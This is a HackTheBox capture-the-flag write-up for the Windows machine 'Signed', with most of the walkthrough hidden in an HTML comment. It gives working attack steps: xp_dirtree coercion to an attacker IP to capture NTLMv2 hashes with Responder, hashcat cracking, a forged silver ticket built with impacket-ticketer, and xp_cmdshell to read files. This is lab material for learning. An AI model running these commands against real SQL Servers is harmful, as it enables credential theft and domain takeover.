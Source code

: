 # Signed

```
Difficulty: Medium
Operating System: Windows
Hints: True
```

> **Target:** `10.10.11.90`
> **Service:** Microsoft SQL Server 2022 (1433)

| Step | User / Access                  | Technique Used                                                                                                                                                                      | Result                                                                                                        |
| :--: | :----------------------------- | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :------------------------------------------------------------------------------------------------------------ |
|   1  | (Local / Recon)                | `nmap -sVC`                                                                                                                                                                         | Discovered only MSSQL (1433) open on `10.10.11.90` running SQL Server 2022.                                   |
|   2  | `scott` (guest SQL)            | Provided creds → `impacket-mssqlclient scott:'Sm230#C5NatH'@10.10.11.90`                                                                                                            | Logged into SQL as low-privilege/guest account.                                                               |
|   3  | (attacker)                     | `EXEC xp_dirtree '\\\\ATTACKER_IP\\share'` + `Responder`                                                                                                                            | Triggered server to authenticate to attacker and captured `SIGNED\mssqlsvc` NTLMv2 hash.                      |
|   4  | (attacker)                     | `hashcat -m 5600 mssqlsvc.hash /usr/share/wordlists/rockyou.txt`                                                                                                                    | Cracked `mssqlsvc` password from captured NTLM hash.                                                          |
|   5  | `mssqlsvc` (service account)   | `impacket-mssqlclient -windows-auth SIGNED/mssqlsvc:'<pass>'@10.10.11.90`                                                                                                           | Possessed valid domain/service credentials (SQL still limited when used directly).                            |
|   6  | (attacker)                     | SQL enumeration (`sys.server_principals`, `sys.server_role_members`)                                                                                                                | Found `SIGNED\IT` has `sysadmin` on instance; discovered domain SID and RIDs (e.g., IT = 1105).               |
|   7  | (attacker)                     | Silver Ticket generation: `impacket-ticketer -nthash <nthash> -domain SIGNED.HTB -domain-sid <SID> -user-id <RID> -groups 512,519,1105 -spn MSSQLSvc/DC01.SIGNED.HTB:1433 mssqlsvc` | Forged TGS (Silver Ticket) embedding IT group RID so the service would accept sysadmin membership.            |
|   8  | `mssqlsvc` (via forged ticket) | Load ticket: `export KRB5CCNAME=mssqlsvc.ccache` + `impacket-mssqlclient -k -no-pass DC01.SIGNED.HTB -windows-auth`                                                                 | Authenticated as `SIGNED\mssqlsvc` **with dbo/sysadmin on the SQL instance** (IS_SRVROLEMEMBER returned `1`). |
|   9  | `mssqlsvc` (SQL dbo/sysadmin)  | `EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`                                                                       | Enabled `xp_cmdshell` for command execution inside SQL Server.                                                |
|  10  | `mssqlsvc` (SQL dbo/sysadmin)  | `EXEC xp_cmdshell 'type C:\Users\mssqlsvc\Desktop\user.txt'`                                                                                                                        | Read `user.txt` (user flag) from `mssqlsvc`'s desktop.                                                        |

**⚠️ Notice:
This challenge is currently active on HackTheBox.
In accordance with HackTheBox's content policy, this writeup will be made publicly available only after the challenge is retired.**

<!--

## Nmap Recon

```
nmap -sVC 10.10.11.90

Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-11 21:41 CEST
Nmap scan report for 10.10.11.90
Host is up (0.029s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-info:
|   10.10.11.90:1433:
|     Version:
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info:
|   10.10.11.90:1433:
|     Target_Name: SIGNED
|     NetBIOS_Domain_Name: SIGNED
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: SIGNED.HTB
|     DNS_Computer_Name: DC01.SIGNED.HTB
|     DNS_Tree_Name: SIGNED.HTB
|_    Product_Version: 10.0.17763
|_ssl-date: 2025-10-11T19:42:23+00:00; +23s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-10-11T19:16:20
|_Not valid after:  2055-10-11T19:16:20
Host script results:
|_clock-skew: mean: 22s, deviation: 0s, median: 22s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.77 seconds
```



## Initial Access — MSSQL

**Initial credentials provided**

* **Username:** `scott`
* **Password:** `Sm230#C5NatH`

**Connect to MSSQL**

```bash
impacket-mssqlclient scott:'Sm230#C5NatH'@10.10.11.90
# Logged in as guest user with minimal privileges.
```



## NTLM Hash Capture & Cracking

### Responder setup

We coerce the SQL Server to authenticate to our machine using `xp_dirtree` (extended stored procedure).

```bash
sudo responder -I tun0
```

### Coerce Authentication from MSSQL

From the SQL session:

```sql
EXEC xp_dirtree '\\\\10.10.16.16\\share';
```

This triggers an SMB connection attempt from the SQL Server to the attacker, which Responder captures.

**Captured NTLMv2 Hash (example output):**

```
[SMB] NTLMv2-SSP Client   : 10.129.170.123
[SMB] NTLMv2-SSP Username : SIGNED\mssqlsvc
[SMB] NTLMv2-SSP Hash     : mssqlsvc::SIGNED:9bade5d933cee1b4:091BE064ACDC3C5EF68AFAAA<HASH>
```


![Signed](Pictures/htb_Signed_mssql_hash_capture.jpg)

### Crack the hash

```bash
hashcat -m 5600 mssqlsvc.hash /usr/share/wordlists/rockyou.txt
# Cracked Password: pur<PASS>
```

![Signed](Pictures/htb_Signed_passcrack.jpg)


## Authenticate with Domain Credentials

With the cracked password for `mssqlsvc`:

```bash
impacket-mssqlclient -windows-auth SIGNED/mssqlsvc:'pur<PASS>'@10.10.11.90
# Still logged in as guest user (on SQL), but now we possess valid domain credentials for mssqlsvc.
```



## SQL Server Enumeration

Query server principals, roles and linked servers.

```sql
-- Check server roles: who is sysadmin?
SELECT r.name AS role_name, mp.name AS member_name
FROM sys.server_role_members srm
JOIN sys.server_principals r ON srm.role_principal_id=r.principal_id
JOIN sys.server_principals mp ON srm.member_principal_id=mp.principal_id
WHERE r.name='sysadmin';

-- Find linked servers
SELECT srv.server_id, srv.name FROM sys.servers srv WHERE srv.name IN ('DC01',@@SERVERNAME);
```


**Notable findings**

* `SIGNED\IT` group has `sysadmin` role on the MSSQL instance.
* Found linked server: `DC01` (domain controller).

![Signed](Pictures/htb_Signed_Dump.jpg)


## Domain SID Extraction

```
SELECT SUSER_SID();
SID (hex): b'0105000000000005150000005b7bb0f398aa2245ad4a1ca44f040000'

Converting to readable format: - Domain SID: S-1-5-21-4089266779-11675<SID> - User RID: 1103

IT Group SID Discovery

SELECT name, sid FROM sys.server_principals WHERE name = 'SIGNED\IT';
IT Group SID: b'0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000' - IT Group RID: 1105
```
![Signed](Pictures/htb_Signed_sid.jpg)
![Signed](Pictures/htb_Signed_sid_1103.jpg)

Python
```
def sid_from_hex(blob):
    b = bytes.fromhex(blob)
    rev = b[0]
    sub_count = b[1]
    id_auth = int.from_bytes(b[2:8], byteorder='big')
    subs = []
    offset = 8
    for i in range(sub_count):
        subs.append(int.from_bytes(b[offset:offset+4], byteorder='little'))
        offset += 4
    sid = "S-{}-{}".format(rev, id_auth) + "".join(f"-{s}" for s in subs)
    domain_sid = "S-{}-{}".format(rev, id_auth) + "".join(f"-{s}" for s in subs[:-1])
    rid = subs[-1] if subs else None
    return sid, domain_sid, rid

blob = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
print(sid_from_hex(blob))
```

![Signed](Pictures/htb_Signed_sid_IT_sid_Discovery.jpg)


## Silver Ticket Attack
Prerequisites

For Silver Ticket generation, we need: 
1. Service account NTLM hash (mssqlsvc) 
2. Domain SID 
3. Target user (Administrator - RID 500) 
4. Service Principal Name (SPN)

Calculate NTLM Hash
```
python3 -c 'import hashlib; print(hashlib.new("md4", "puXXXXXXXXXXXX".encode("utf-16le")).hexdigest())'
```

![Signed](Pictures/htb_Signed_NTLM_hash.jpg)

### System time sync (attacker host)

```bash
sudo ntpdate time.google.com
```

Observed output you provided:

```
2025-10-21 04:43:33.740931 (+0000) +0.014579 +/- 0.048432 time.google.com 2001:4860:4806:c:: s1 no-leap
```

> Note: Accurate system time on the attacker host is important for Kerberos ticket validity.

### Create Silver Ticket (impacket-ticketer)

```bash
impacket-ticketer \
  -nthash ef699384c3285c54128a3ee1ddb1a0cc \
  -domain SIGNED.HTB \
  -domain-sid S-1-5-21-4088429403-1159899800-2753317549 \
  -user-id 1103 \
  -groups 512,519,1105 \
  -spn MSSQLSvc/DC01.SIGNED.HTB:1433 \
  mssqlsvc
```

Observed tool output (captured from your session):

```
/home/z0n/venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal
as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for SIGNED.HTB/mssqlsvc
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in mssqlsvc.ccache
```
![Signed](Pictures/htb_Signed_Silver_ticket_msssql.jpg)

### Load ticket and connect to MSSQL using kbr-based ticket

```bash
export KRB5CCNAME=mssqlsvc.ccache
impacket-mssqlclient -k -no-pass DC01.SIGNED.HTB -windows-auth
```


Captured session output (from your run):

```
/home/z0n/venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232)
[!] Press help for extra shell commands
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT IS_SRVROLEMEMBER('sysadmin');
    
-   
1   
```

This shows the forged ticket granted `dbo`/`sysadmin` privileges on the instance.

### Enable xp_cmdshell and read user flag

From the SQL prompt you ran:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'type C:\\Users\\mssqlsvc\\Desktop\\user.txt';
```

![Signed](Pictures/htb_Signed_User_flag.jpg)




## Key Takeaways

* `xp_dirtree` can coerce SMB authentication from SQL Server and leak NTLMv2 hashes.
* Captured service account credentials (NTLM or password) + Domain SID + correct group RIDs allow forging **Silver Tickets** without KDC interaction.
* The PAC must include the necessary group RIDs (e.g., `SIGNED\IT`) for the service to accept elevated privileges.
* With a valid Silver Ticket for `MSSQLSvc/DC01:1433` you can authenticate as a high-privilege account (here `mssqlsvc` with sysadmin) and enable `xp_cmdshell` to access local files.

-->

